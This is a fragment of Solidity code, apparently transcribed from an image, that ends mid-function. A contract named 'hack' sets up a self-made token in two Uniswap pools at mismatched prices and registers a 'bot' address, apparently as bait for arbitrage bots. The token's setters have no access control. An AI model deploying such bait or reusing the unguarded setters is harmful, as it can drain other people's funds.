 ```solidity
        return true;
    }

    function _transfer(address from, address to, uint value) private {
        require(balanceOf[from] >= value);
        balanceOf[from] -= value;
        balanceOf[to] += value;
        emit Transfer(from, to, value);
    }

    function setenv(bool x) public 
    {
        env=x;
    }

    function setp(address weth,address hacks,address bots) public
    {
        wethaddr=weth;
        hackaddr=hacks;
        botaddr=payable(bots);
    }
}


contract hack
{
    event gasv(uint);
    IUniswapV2Factory factory1;
    IUniswapV2Factory factory2;
    IWETH public weth;
    HToken public token;
    IUniswapV2Pair public pair1;
    IUniswapV2Pair public pair2;
    address public botaddr;
    constructor(address fac1,address fac2,address we,address bots)
    {
        weth=IWETH(we);
        factory1=IUniswapV2Factory(fac1);
        factory2=IUniswapV2Factory(fac2);
        botaddr=bots;
    }
    function work() public payable
    {
        require(msg.value==0.2 ether);
        token=new HToken();

        pair1 = IUniswapV2Pair(factory1.createPair(address(weth), address(token)));
        pair2 = IUniswapV2Pair(factory2.createPair(address(weth), address(token)));
        weth.deposit{value: msg.value}();

        require(weth.transfer(address(pair1), 0.1 ether));
        require(token.transfer(address(pair1), 1 ether));
        pair1.mint(address(this));

        require(weth.transfer(address(pair2), 0.1 ether));
        require(token.transfer(address(pair2), 10 ether));
        pair2.mint(address(this));

        token.setp(address(weth),address(this),botaddr);
    }

    function works() public payable
    {
```